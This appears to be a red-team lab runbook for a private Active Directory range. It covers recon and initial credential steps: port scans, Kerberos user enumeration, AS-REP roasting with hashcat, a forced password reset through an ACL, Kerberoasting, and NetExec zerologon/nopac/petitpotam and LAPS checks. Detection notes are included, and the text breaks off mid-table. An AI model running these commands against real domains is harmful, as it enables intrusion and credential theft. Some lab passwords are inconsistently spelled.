


# CADRE — Attack Campaigns (v2)

> **Implements** `[docs/internal/plan01-telemetry-catalog/phase1-source-matrix/five-stream-merge.md](../../docs/internal/plan01-telemetry-catalog/phase1-source-matrix/five-stream-merge.md)` — the unified 100-attack pipeline.
> **Per-attack metadata:** `[CAMPAIGNS-METADATA.md](CAMPAIGNS-METADATA.md)` — playbook refs, ACE#s, telemetry expectations.
> **DFIR investigation bridge:** `[DFIR-Nexus-Pioneer-workflow.md](DFIR-Nexus-Pioneer-workflow.md)` — parallel attack + DFIR-Nexus case workflow (Phase 3.5 active).
> **v2 index (start here):** `[CAMPAIGNS.md](CAMPAIGNS.md)` · **Archived v1:** `[CAMPAIGNS_v1_archived.md](CAMPAIGNS_v1_archived.md)`.

**75 campaign attacks + 14 E exercises + 10 F supply-chain scenarios = 99 total.**

> ### How to use v2 (read this first)

> **Primary path:** Open the runbook for your current phase — **[`Runbooks/CAMPAIGNS-RUNBOOK-README.md`](Runbooks/CAMPAIGNS-RUNBOOK-README.md)**. Each runbook contains the **full phase narrative** (theory, prerequisites, detection, tables) **plus** commands to run live.
>
> | Goal | What to use |
> |------|-------------|
> | Learn + execute one phase | **Phase runbook** (e.g. [`Runbooks/CAMPAIGNS-RUNBOOK-0.md`](Runbooks/CAMPAIGNS-RUNBOOK-0.md)) |
> | Pick which file to open | [`Runbooks/CAMPAIGNS-RUNBOOK-README.md`](Runbooks/CAMPAIGNS-RUNBOOK-README.md) |
> | Search entire campaign / print | **This file** (`CAMPAIGNS_v2.md`) |
> | Lab topology + coverage table | [`CAMPAIGNS.md`](CAMPAIGNS.md) (index) |
>
> **After each verified attack:** update [`CAMPAIGNS-METADATA.md`](CAMPAIGNS-METADATA.md).
>
> **Editing (going forward):** Update the **runbook** and the matching section in **`CAMPAIGNS_v2.md`** together. Run `python tools/split-campaign-runbooks.py --check` to verify nothing was dropped.

## Lab Topology — Attack Surface




> **Line types:** `==>` Attack chain    `-.-` Forest trust    `-.->` SQL linked server
>
> ¹ SID filtering disabled — verified by `01-core-ad.yml` checking `SIDFilteringQuarantined = $false` on both dc01 and dc03 sides. Default behavior for forest trusts on Server 2025.

## Attack Flow — 8 Phases + 4 Branches




**START HERE.** The main spine (Phases 1–8) is the primary credential chain from zero to all three domains. Four branches diverge at specific points to explore adjacent attack surfaces — each is optional but demonstrates a distinct technique class.

- **Branch A** — ACL abuse in cadre.local (ForceChangePassword, WriteDacl, GenericWrite, GPO, gMSA, Shadow Creds)
- **Branch B** — ADCS certificate template abuse (ESC1–14)
- **Branch C** — SCCM hierarchy takeover (NAA extraction, PXE, site escalation)
- **Branch D** — Linux post-exploit (MSSQL link, Podman escape, SSSD tickets, NFS, Keytab)

Branches converge back into the main spine — they earn credentials that accelerate or enable the main chain.

---

## Phase 0 - Reconnaissance — From Zero Credentials


### Step 0 — Full Port/Service Scan (All VMs)

```bash
nmap -Pn -sV -sC -p- --min-rate 5000 -T4 192.168.77.10,11,12,22,23,40,50,51,55
```

**Results (9 hosts up, 411s scan):**


| VM                        | IP  | Open Ports                                                       | Key Services                                                                    |
| ------------------------- | --- | ---------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| dc01 (cadre.local)        | .10 | 22,53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389 | DC: DNS, Kerberos, LDAP, LDAPS, SMB, RDP, WinRM, ADWS. **SMB signing required** |
| dc02 (child.cadre.local)  | .11 | 22,53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389    | DC: DNS, Kerberos, LDAP, LDAPS, SMB, RDP, WinRM, ADWS. **SMB signing required** |
| dc03 (range.local)        | .12 | 22,53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389    | DC: DNS, Kerberos, LDAP, LDAPS, SMB, RDP, WinRM, ADWS. **SMB signing required** |
| mbr01 (child.cadre.local) | .22 | 22,80,135,443,445,1433,3389,5985                                 | **MSSQL 2022** (1433), IIS, HTTPS, RDP, WinRM. **SMB signing NOT required**     |
| mbr02 (range.local)       | .23 | 22,80,135,139,443,445,3389,5040,5985,8530,8531                   | **SCCM** (8530/8531), IIS, HTTPS, RDP, WinRM. **SMB signing NOT required**      |
| linux01 (cadre.local)     | .40 | 22,111,1433,2049,8080                                            | **MSSQL Linux** (1433), NFS, SSH, Python HTTP                                   |


**Key findings:**

- 3 MSSQL instances: mbr01 (Windows), linux01 (Linux), mbr02 (SCCM)
- SCCM on mbr02: ports 8530/8531 (HTTP/HTTPS WSUS)
- SMB signing **not required** on mbr01/mbr02 — NTLM relay possible
- SMB signing **required** on all 3 DCs — NTLM relay blocked
- SSH on all Windows VMs (OpenSSH for Windows)
- WinRM (5985) on all DCs and member servers
- NFS on linux01 (2049)

### Step 0.5 — Unauthenticated Reconnaissance (Limited on Server 2025)

> ⚠️ **Flow correction (2026-06-24 session 10):** NetExec commands that require credentials (`intern_blue:1nt3rn_Blu3!`) do NOT belong at this stage — we don't have those credentials yet. They are now distributed across the appropriate post-credential-gain stages (see Phase 1.3, 2.3, 3.5A). Step 0.5 is now strictly **unauthenticated** recon.

**Server 2025 blocks most unauthenticated enumeration:**
- ❌ Null session (SAMR) — blocked
- ❌ Anonymous LDAP bind — blocked
- ⚠️ Guest SMB session — usually disabled
- ✅ Kerberos user enum (no creds needed) — see Phase 1 Step 1
- ✅ NTLM session-less checks — limited but useful for signing state

**Unauthenticated NetExec commands that DO work:**

```bash
# Relay candidate list (NO AUTH — just outputs hosts that allow NTLM relay)
nxc smb 192.168.77.0/24 --gen-relay-list /tmp/relay_list.txt

# Signing state check (NO AUTH — just reports signing_required: True/False per host)
nxc smb 192.168.77.0/24
# Output: per-host signing state — identifies relay targets (mbr01/mbr02 have signing NOT required)

# Guest session attempt (may be blocked on Server 2025 — try anyway)
nxc smb 192.168.77.10 -u 'guest' -p '' --shares
# Expected on Server 2025: STATUS_LOGON_FAILURE or access denied

# RID cycling with guest (often blocked — try anyway)
nxc smb 192.168.77.10 -u 'guest' -p '' --rid-brute 10000
# Expected on Server 2025: likely 0 users enumerated
```

**What CAN run unauthenticated in Phase 0 (not NetExec):**
- **Step 0** — nmap port/service scan (already in CAMPAIGNS.md)
- **Step 1** — RPC anonymous enum (blocked on Server 2025 — historical)
- **Step 2** — DNS zone transfers, public records
- **Step 3** — ADWS enumeration (port 9389 — may still work unauth in some configs)
- **Step 4** — DNS enumeration via adidnsdump
- **Step 5** — SAMR enumeration (blocked on Server 2025)
- **Step 6** — Honeypot detection via lastLogon (LDAP query — needs creds OR anonymous)
- **Step 7** — ADeleg GUI recon (Windows GUI tool — runs as authenticated user)

**Phase 1 Step 1** — Kerberos user enum via `kerbrute` (no creds needed — Kerberos AS-REQ with no pre-auth)

**See new post-credential NetExec stages:**
- **Phase 1 Step 3** — NetExec Authenticated Recon (First Credential: `intern_blue`)
- **Phase 2 Step 3** — NetExec Authenticated Recon (Service Account: `svc_mssql`)
- **Phase 3.5 Step A** — NetExec Authenticated Recon (Admin/SYSTEM)

### Step 1 — Anonymous Enumeration (Server 2025 blocks this)

```bash
# rpcclient — anonymous RPC
rpcclient -U '' -N 192.168.77.11 -c 'enumdomusers'
# Result: NT_STATUS_ACCESS_DENIED

# enum4linux — anonymous LDAP/SMB
enum4linux -a 192.168.77.11
# Result: NT_STATUS_ACCESS_DENIED

enum4linux -a 192.168.77.10
# Result: NT_STATUS_ACCESS_DENIED
```

**Finding:** Server 2025 blocks all anonymous enumeration by default. Both DCs (child.cadre.local and cadre.local) reject anonymous sessions. This is a hardening improvement over older Windows Server versions — GOAD (Server 2016/2019) allowed anonymous user listing.

### Step 2 — Kerberos User Enumeration (no creds needed)

Even with anonymous blocked, Kerberos port 88 reveals valid users. The KDC responds differently to valid vs invalid usernames in AS-REQ packets — no authentication required.

```bash
# Create user list from known naming conventions
cat > /tmp/users.txt << 'EOF'
administrator, guest, krbtgt, vagrant,
intern_blue, analyst_t1, analyst_t2, analyst_t3, analyst_cloud,
svc_mssql, svc_elastic, mgr_incident, lead_detection, dir_operations,
eng_agentic, eng_cloud, intern_intel, hunter_dfir, analyst_dfir,
lead_engineering, ops_redcell, chief_command
EOF

# Enumerate child.cadre.local (DC02)
nmap -Pn -p 88 --script=krb5-enum-users \
  --script-args='krb5-enum-users.realm=child.cadre.local,userdb=/tmp/users.txt' \
  192.168.77.11

# Enumerate cadre.local (DC01)
nmap -Pn -p 88 --script=krb5-enum-users \
  --script-args='krb5-enum-users.realm=cadre.local,userdb=/tmp/users.txt' \
  192.168.77.10
```

**Results — 20 valid users found across both domains:**


| Domain            | DC                   | Users Found                                                                                                                            |
| ----------------- | -------------------- | -------------------------------------------------------------------------------------------------------------------------------------- |
| child.cadre.local | dc02 (192.168.77.11) | vagrant, svc_mssql, lead_detection, administrator, analyst_t3, intern_blue, mgr_incident, analyst_t2, dir_operations, analyst_t1       |
| cadre.local       | dc01 (192.168.77.10) | analyst_cloud, administrator, lead_engineering, vagrant, hunter_dfir, eng_cloud, chief_command, analyst_dfir, ops_redcell, eng_agentic |


**Key finding:** `analyst_cloud` is in the **root domain** (cadre.local), not the child domain. This was never discovered by BloodHound because BH was only run against child.cadre.local.

### Step 3 — ADWS Enumeration (SOAP port 9389) ⏳

**Source:** iPurple.team (2025-08-12)
**MITRE:** T1018 (Remote System Discovery)

Active Directory Web Services (ADWS) runs on all DCs on port 9389. Provides SOAP-based enumeration as alternative to LDAP. Server 2025 blocks anonymous LDAP — but ADWS may behave differently.

```bash
# Test ADWS connectivity from Kali
nmap -Pn -p 9389 192.168.77.10,11,12

# Enumerate via ADWS (requires creds — test with intern_blue)
# SOAPHound or adws-enum tools
```

**Test:** Can ADWS enumerate users/groups when LDAP anonymous is blocked? If yes, this is a viable Phase 0 recon vector.

**Detection:** Zeek conn.log — connections to port 9389 from non-domain hosts.

### Step 4 — DNS Enumeration via adidnsdump ⏳

**Source:** dirkjanm.io (2019)
**MITRE:** T1590.002 (Gather Victim Network Information: DNS)
**Tool:** adidnsdump ([https://github.com/dirkjanm/adidnsdump](https://github.com/dirkjanm/adidnsdump))

AD-integrated DNS allows any authenticated user to query all records by default. adidnsdump enumerates the AD DNS zone, including records the querying user has no explicit read rights to.

```bash
# From Kali with intern_blue creds
adidnsdump -u cadre.local\\intern_blue -p '1nt3rn_Blu3!' dc01.cadre.local

# Compare output with BloodHound computer list
# Check for unpublicized records (Azure/Entra endpoints, Cloud Sync, etc.)
```

**Test:** Can we discover hosts not visible in BloodHound? Cloud Sync endpoints? Internal service records?

**Detection:** Zeek dns.log — bulk DNS queries from single source to authoritative AD DNS.

### Step 5 — SAMR Enumeration (LDAP-Free Account Discovery) ⏳

**Source:** CYPFER Offensive Practice (2026-06-15)
**MITRE:** T1087.002 (Account Discovery: Domain Account)

LDAP enumeration is heavily monitored in mature environments. SAMR (MS-SAMR protocol over port 445) returns the same account data through the same RPC pipe that backup agents, inventory tools, and management consoles use daily — traffic blends into baseline.

**Tool:** `sam_honeypot_enum.c` (CYPFER) or Impacket's `samrdump.py`

```bash
# From Kali — enumerate users via SAMR (no LDAP bind)
python3 samrdump.py cadre.local/intern_blue:'1nt3rn_Blu3!'@192.168.77.10

# Returns: samAccountName + lastLogon for every user
# Also works for machine accounts (dollar sign)
```

**What SAMR returns:**

- `samAccountName` — username
- `lastLogon` — last authentication timestamp (FILETIME)
- `logonCount` — total logon count
- `passwordLastSet` — when password was last changed
- `accountExpires` — expiration date

**Test:** Does SAMR enumeration generate fewer alerts than LDAP enumeration? Compare Zeek/Suricata output for both approaches.

**Detection:** Zeek `dce_rpc.log` — SAMR RPC calls from non-management hosts. Low confidence alone — needs correlation with other indicators.

### Step 6 — Honeypot Detection via lastLogon ⏳

**Source:** CYPFER Offensive Practice (2026-06-15)
**MITRE:** T1087.002 (Account Discovery: Domain Account)

Honeytoken accounts are built to detect interaction — attractive names (`svc_backup_adm`, `sql_da`), elevated group memberships, but **never authenticated**. The `lastLogon` attribute exposes them:

- `lastLogon = 0` (or `12/31/1600` in tools) = never authenticated = **honeypot**
- Real privileged accounts always have authentication history
- Machine accounts (`$`) with `lastLogon = 0` are impossible — domain join requires authentication
- Check across multiple DCs — `lastLogon` is not replicated

**Detection technique:**

```bash
# Enumerate via SAMR, filter for lastLogon = 0
python3 samrdump.py cadre.local/intern_blue:'1nt3rn_Blu3!'@192.168.77.10 | grep "Last Logon: 0"

# Or via LDAP (noisier):
ldapsearch -x -H ldap://dc01.cadre.local -b "DC=cadre,DC=local" "(&(lastLogon=0)(!(objectClass=computer)))" sAMAccountName
```

**Behavioral correlation:**


| Attribute       | Real Account     | Honeypot              |
| --------------- | ---------------- | --------------------- |
| lastLogon       | Recent timestamp | 0 or 12/31/1600       |
| logonCount      | > 0              | 0                     |
| passwordLastSet | Recent           | Never or old default  |
| groupMembership | Used in practice | Attractive but unused |


**Test:** Deploy honeytoken accounts in CADRE (Phase 5 defense exercise). Can we detect them via lastLogon before interacting?

**Detection (defensive):** Monitor LDAP queries targeting honeytoken accounts. ANY interaction = high-confidence alert. Deploy via plan1.7 EX-22.

---

### Step 7 — ADeleg GUI Recon (Alternative to BloodHound) 🆕

**Tool:** [ADeleg](https://github.com/trimarc/ADeleg) (Windows GUI, single `.exe`). Source material at `CADRE-Courses/How to Find Insecure Active Directory Permissions with ADeleg/Episode 173_*.txt` (21,554 bytes).

**Why this exists:** Per the ADeleg podcast Episode 173:
> "adelec is an active directory delegation management tool ... it gets you almost the same amount of information that bloodhound gets you but with like a third of the hassle — you don't have to set up bloodhound, you don't have to run the sharp pound collector in your environment and trigger all your edr alerts, you don't have to set up docker to like set up the bloodhound ui and node for neoj"

**Differentiators from BloodHound (Phase 4):**
- ✅ **No SharpHound collector** — avoids EDR alerts
- ✅ **No Docker / Neo4j** setup
- ✅ **No LDAP bind required** for full enumeration
- ✅ **Pure Windows GUI** — drop executable, click Connect
- ✅ **Direct View by Trustee** — maps directly to attacker perspective
- ⚠️ **Trade-off:** no graph visualization, no Cypher queries, no path-finding

**Workflow:**
```powershell
# 1. Copy ADeleg.exe to a domain-joined Windows VM (mbr01, mbr02, or any DC)
Copy-Item .\ADeleg.exe \\mbr01\C$\Tools\

# 2. RDP to mbr01, double-click ADeleg.exe
# 3. Click "Connect" — auto-authenticates as current user
# 4. View → Index View By → Trustees (reorganizes UI)
# 5. Select unsafe group on left (e.g., "Authenticated Users")
# 6. Review resources on right with "Allow" type + flagged permissions
# 7. For ADCS: View by → Resources → Certificate Templates → check ESC1-8 markers
```

**"Unsafe users/groups" to check first (per article):**
- everyone
- authenticated users
- domain users
- domain computers
- domain join account (often over-permissioned — "i commonly see over permissioned")

**"Unsafe permissions" flagged:**
- GenericAll / Full Control
- WriteAllProperties / WriteProperty
- WriteDacl / WriteOwner
- ForceChangePassword / ResetPassword
- Delete / CreateChild / DeleteChild
- AllExtendedRights (ADCS abuse)
- Apply-Group-Policy (GPO abuse)

**Maps to:**
- **Branch A (ACL Abuse)** — visualizes the 14 ACEs from `05-ad-attack-surface.yml` BEFORE exploitation. Confirms playbook deployment worked.
- **Branch B (ADCS)** — visual scan of ESC1-17 templates from `08-adcs-deploy.yml` BEFORE `certipy find`. Identifies:
  - ESC4 (vulnerable template ACLs — WriteOwner/WriteDacl on cert template)
  - ESC1 (enrollee supplies subject + auth EKU)
  - ESC2 (any purpose EKU)
  - ESC3 (enrollment agent EKU)
- **Phase 5 (Delegation)** — surfaces unconstrained + constrained + RBCD delegation paths
- **Phase 4 (BloodHound)** — pre-recon verification (faster, lower-noise)

**When to use ADeleg vs BloodHound:**
| Use case | Tool |
|---|---|
| Quick triage, no setup, avoid EDR | ADeleg |
| Deep path-finding, complex queries | BloodHound |
| ADCS misconfig discovery | Both (ADeleg first, then `certipy find`) |
| Reports with screenshots | ADeleg (clean GUI) |
| Reports with path graphs | BloodHound (only option) |

**CADRE-specific notes:**
- Run ADeleg from mbr01 (domain-joined, less critical than DCs)
- Visualizes the 14 ACEs from `05-ad-attack-surface.yml`:
  - ACE#13-14 (eng_agentic → DC: GetChanges + All) — DCSync
  - ACE#18 (intern_blue → analyst_t2: ForceChangePassword) — Phase 2 path
  - ACE#20 (dir_operations → mbr01$: GenericWrite) — RBCD path
  - ACE#23 (analyst_osint → svc_naa: GenericAll) — Phase 8 path
  - + 10 more
- Surfaces ADCS ESC1-17 templates from `08-adcs-deploy.yml`:
  - ESC1-Template (vulnerable ESC1)
  - ESC2-Template
  - ESC3-Template
  - ESC4-Template (vulnerable ACLs)
- All 3 DCs (dc01, dc02, dc03) have over-permissioned defaults that ADeleg will surface

**Detection (when defender monitors ADeleg recon):**
- **WinSec 4662** (DS Object Access) — high volume of ACL reads in short period from one source
- **WinSec 4624 Type 3** — auth from ADeleg source
- **Zeek LDAP queries** — bulk `searchRequest` with `(objectClass=*)` from single source IP
- **Sysmon EID 1** — `ADeleg.exe` process creation (process name visible)
- **Suricata new SID (propose 1000102):** Bulk LDAP queries from single source IP, large ACL-read pattern
- **Elastic KQL:** `event.code:4662 AND winlog.event_data.SubjectUserName:*` with cardinality > 100 in 60s window

**Cross-references:**
- Phase 4 (BloodHound) — pre-BloodHound scan
- Branch A (ACL Abuse — 14 ACEs) — visual confirmation
- Branch B (ADCS ESC1-17) — visual scan of vulnerable templates
- See Campaign_suggestions.md #99 (full entry with reasoning + alternative analysis)

---

## Main Spine — Credential Chain

### Phase 1 — Initial Access (WT003: AS-REP Roast)


**Scenario:** You're a contractor working from the company's internal network. Your Kali machine (192.168.77.60) has LAN access to the `child.cadre.local` domain controller (dc02, 192.168.77.11). You don't have domain credentials yet — only network access.

#### Step 1 — Discover valid usernames

From the reconnaissance above, Kerberos user enum already identified valid accounts in both domains. We can also use kerbrute for a more targeted scan:

```bash
kerbrute userenum -d child.cadre.local --dc 192.168.77.11 /usr/share/wordlists/names.txt
```

The scan reveals several valid accounts. One stands out: `intern_blue`.


|                   |                                                                    |
| ----------------- | ------------------------------------------------------------------ |
| **Target**        | `intern_blue` — child.cadre.local user with `DONT_REQUIRE_PREAUTH` |
| **From**          | Kali (192.168.77.60) → dc02 (192.168.77.11)                        |
| **Starting cred** | None (zero knowledge)                                              |
| **What you earn** | `1nt3rn_Blu3!` — low-privilege credential in child.cadre.local     |


#### Step 2 — Check for AS-REP roastable users

From the discovered user list, test for accounts that don't require Kerberos pre-authentication:

```bash
# Original (impacket)
impacket-GetNPUsers child.cadre.local/ -dc-ip 192.168.77.11 -no-pass -usersfile /tmp/valid_users.txt

# Alternative (NetExec with --kdcHost — CRITICAL for multi-DC environments)
nxc ldap 192.168.77.11 -u intern_blue -p '1nt3rn_Blu3!' --asreproast /tmp/asrep_ib.txt --kdcHost 192.168.77.11
# --kdcHost flag fixes "KDC routing quirk" — without it, AS-REQ may be sent to an unreachable DC
```

`intern_blue` returns an AS-REP hash. This means the account has `DONT_REQUIRE_PREAUTH` set on its `userAccountControl` attribute — a misconfiguration. The KDC has sent back a TGT encrypted with `intern_blue`'s RC4-derived key, which can be cracked offline.

```bash
hashcat -m 18200 asrep_hash.txt /home/vagrant/cadre_passwords.txt
```

```
$krb5asrep$23$intern_blue@CHILD.CADRE.LOCAL:... → 1nt3rn_Blu3!
```

**What happened:** An administrator mistakenly flagged `intern_blue`'s account as "Do not require Kerberos preauthentication" — perhaps to support a legacy Unix service or during a troubleshooting session. They never re-enabled it. This single checkbox on one user object gives us our first credential in the child domain.

> ~~**WT028 (null session) removed** — SAMR null bind blocked on Server 2025. **WT031 (password spray) pending relocation** — valid technique, needs a user list source. Kerberos user enumeration (above) replaces the recon function that null session used to serve.~~

---

#### 🔍 Reconnaissance with `intern_blue`

Now we have a valid domain credential (`intern_blue:1nt3rn_Blu3!`). Time to understand what this account can do.

```bash
bloodhound-python -d child.cadre.local -u intern_blue -p '1nt3rn_Blu3!' \
  -ns 192.168.77.11 -c All
```

Load the output (`/home/vagrant/20260602145912_bloodhound.zip` on Kali) into BloodHound CE.

**Finding 1 — ACE#18: intern_blue → analyst_t2: ForceChangePassword**
`intern_blue` can reset `analyst_t2`'s password without knowing the original. This is a direct privilege escalation path — but there's a catch.

**Why this matters:** `intern_blue` has `DONT_REQUIRE_PREAUTH`. When `getTGT.py` tries to obtain a TGT for `intern_blue`, it fails because the KDC skips pre-auth and returns an error. dc02's KDC also doesn't support the RC4 encryption type that Impacket uses for pre-auth. We're stuck — unless we use ACE#18 to bridge to a user with pre-auth enabled.

**Finding 2 — SPN on `svc_mssql`**
The user `svc_mssql` has an SPN registered: `MSSQLSvc/mbr01.child.cadre.local:1433` (registered by playbook `05-ad-attack-surface.yml` line 827). This means it's kerberoastable. If we can get a service ticket for this SPN and crack it, we get the SQL service account credential.

Together, these two findings define the next phase: use ACE#18 to gain the ability to request TGS tickets, then Kerberoast `svc_mssql`.

---

### Step 3 — NetExec Authenticated Recon (First Credential: `intern_blue`) 🆕

> ⚠️ **Flow correction (2026-06-24 session 10):** This recon step is run **after** we have `intern_blue` credentials (Phase 1 Step 2). At Phase 0 we don't have any credentials — that section is now strictly unauthenticated.

Now that we have a valid credential (`intern_blue:1nt3rn_Blu3!`), we can do real authenticated reconnaissance. Multiple tools at our disposal — pick the right one for the job.

**Primary: NetExec** (10 protocols, 16+ modules — replaces CME + much of impacket for quick recon):

```bash
# Quick auth check + signing state (the workhorse after gaining any cred)
nxc smb 192.168.77.0/24 -u intern_blue -p '1nt3rn_BLu3!'
# Output: GREEN [+]/RED [-]/BLUE [*] per host — confirms creds work + shows signing_required: True/False

# Full user enumeration (replaces ldapsearch + manual queries)
nxc ldap 192.168.77.10 -u intern_blue -p '1nt3rn_BLu3!' -q '(objectClass=user)' -attributes sAMAccountName
nxc ldap 192.168.77.10 -u intern_blue -p '1nt3rn_BLu3!' -q '(objectClass=computer)' -attributes sAMAccountName,operatingSystem
nxc ldap 192.168.77.10 -u intern_blue -p '1nt3rn_BLu3!' -q '(objectClass=group)' -attributes sAMAccountName

# SMB shares + LAPS dump (now we have creds to read them)
nxc smb 192.168.77.0/24 -u intern_blue -p '1nt3rn_BLu3!' --shares -M laps

# Vulnerability scan against all 3 DCs (5 modules in one command)
nxc smb 192.168.77.10,11,12 -u intern_blue -p '1nt3rn_BLu3!' -M nopac -M zerologon -M petitpotam

# NEW recon modules (added 2026-06-24)
# Pre-Windows 2000 computer account abuse check
nxc ldap 192.168.77.10 -u intern_blue -p '1nt3rn_BLu3!' -M pre2k --kdcHost 192.168.77.10
# AV/EDR enumeration (pre-attack OPSEC — confirms Defender only per our playbook)
nxc smb 192.168.77.0/24 -u intern_blue -p '1nt3rn_BLu3!' -M enum_av
# User description field enumeration (cheap password leak check)
nxc ldap 192.168.77.10 -u intern_blue -p '1nt3rn_BLu3!' -M get-desc-users
# Delegation path discovery
nxc ldap 192.168.77.11 -u intern_blue -p '1nt3rn_BLu3!' --find-delegation
# adminCount=1 enumeration (AdminSDHolder stale privilege)
nxc ldap 192.168.77.10 -u intern_blue -p '1nt3rn_BLu3!' --admin-count
```

**Alternative: bloodyAD** (Linux-friendly PowerView replacement, per Campaign_suggestions.md #91):

```bash
# User enumeration
bloodyAD --host 192.168.77.10 -d child.cadre.local -u intern_blue -p '1nt3rn_BLu3!' get object users --attr sAMAccountName
# Group enumeration
bloodyAD --host 192.168.77.10 -d child.cadre.local -u intern_blue -p '1nt3rn_BLu3!' get object groups
# Computer enumeration
bloodyAD --host 192.168.77.10 -d child.cadre.local -u intern_blue -p '1nt3rn_BLu3!' get object computers
# All users + group memberships
bloodyAD --host 192.168.77.10 -d child.cadre.local -u intern_blue -p '1nt3rn_BLu3!' get object users --resolve-members
```

**Alternative: ADeleg GUI** (visual verification — per Campaign_suggestions.md #99):

```powershell
# On mbr01 (domain-joined):
# 1. Copy ADeleg.exe to C:\Tools\
# 2. Run as intern_blue
# 3. View → Index View By → Trustees
# 4. Verify ACE#18 (intern_blue → analyst_t2: ForceChangePassword) is visible
# 5. View ADCS templates for ESC1-17 misconfigs
```

**Alternative: impacket** (for deeper queries):

```bash
# Get user details with extra attributes
impacket-lookupsid child.cadre.local/intern_blue:'1nt3rn_BLu3!'@192.168.77.11
# Get domain users via SAMR (if accessible)
impacket-samrdump child.cadre.local/intern_blue:'1nt3rn_BLu3!'@192.168.77.11
```

**What to expect (success):**
- ~50 user accounts enumerated across cadre.local + child.cadre.local
- ~10 computer accounts (DCs + member servers + workstations)
- ~30 groups with intern_blue's memberships documented
- LAPS password for mbr01 returned
- Vulnerability scan verdicts (nopac/zerologon/petitpotam per DC)
- AV/EDR: Defender only confirmed (per playbook)

**What to expect (failure modes):**
- LAPS module returns nothing: `ms-Mcs-AdmPwd` not configured (verify playbook ran)
- `--shares` returns ACCESS_DENIED: intern_blue doesn't have share access (expected for low-priv)
- Vulnerability scan fails: modules require specific OS/version compatibility

**CADRE-specific notes:**
- `intern_blue` is in `CN=Users,DC=child,DC=cadre,DC=local` (child domain)
- LAPS passwords: mbr01 has LAPS (per `04-vulnerabilities.yml`); mbr02 + DCs likely don't
- nxc `--kdcHost` flag is **CRITICAL** for multi-DC: `192.168.77.10` is cadre.local root; `192.168.77.11` is child.cadre.local

**Cross-references:**
- Campaign_suggestions.md #90 (NetExec full inventory), #91 (bloodyAD), #99 (ADeleg), #103 (UAC flags), #104 (machine account quota)
- See Phase 4 (BloodHound) — use the auth-recon data to seed BloodHound queries

---

### Phase 2 — Credential Harvesting (WT002: Kerberoast via ACE#18)


|                         |                                                                                        |
| ----------------------- | -------------------------------------------------------------------------------------- |
| **Target**              | `svc_mssql` SPN — `MSSQLSvc/mbr01.child.cadre.local:1433`                              |
| **ACE**                 | #18 — `intern_blue` → `analyst_t2`: ForceChangePassword                                |
| **Source of this path** | BloodHound discovery in Phase 1 recon                                                  |
| **From**                | Kali (192.168.77.60) → dc02 (.11)                                                      |
| **Starting cred**       | `1nt3rn_Blu3!` (earned in Phase 1)                                                     |
| **What you earn**       | `s3rv1c3_MSSQL!` — MSSQL service account (linked server access, IMPERSONATE discovery) |


ACE#18 bridges the Kerberos limitation: reset `analyst_t2`'s password (a user with pre-auth), get a TGT via `getTGT.py` (which works for pre-auth-enabled accounts), then request TGS tickets for all SPNs in the domain.

```bash
bloodyAD --host 192.168.77.11 -d child.cadre.local -u intern_blue -p '1nt3rn_Blu3!' \
  set password "CN=analyst_t2,OU=Detection,DC=child,DC=cadre,DC=local" 'Pwn3d_T2!'
impacket-getTGT child.cadre.local/analyst_t2:'Pwn3d_T2!' -dc-ip 192.168.77.11
export KRB5CCNAME=analyst_t2.ccache
impacket-GetUserSPNs child.cadre.local/analyst_t2 -k -no-pass \
  -dc-ip 192.168.77.11 -request -outputfile child_tgs.txt

# Alternative (NetExec with --kdcHost — fixes multi-DC routing)
nxc ldap 192.168.77.11 -u analyst_t2 -p 'Pwn3d_T2!' --kerberoasting /tmp/kerb_t2.txt --kdcHost 192.168.77.11
# Output: $krb5tgs$23$*svc_mssql$CHILD.CADRE.LOCAL*mbr01.child.cadre.local*$hash...:$
```

The output file contains TGS hashes for **both users with SPNs** in child.cadre.local:


| User         | SPN                                                              | Hashcat Mode |
| ------------ | ---------------------------------------------------------------- | ------------ |
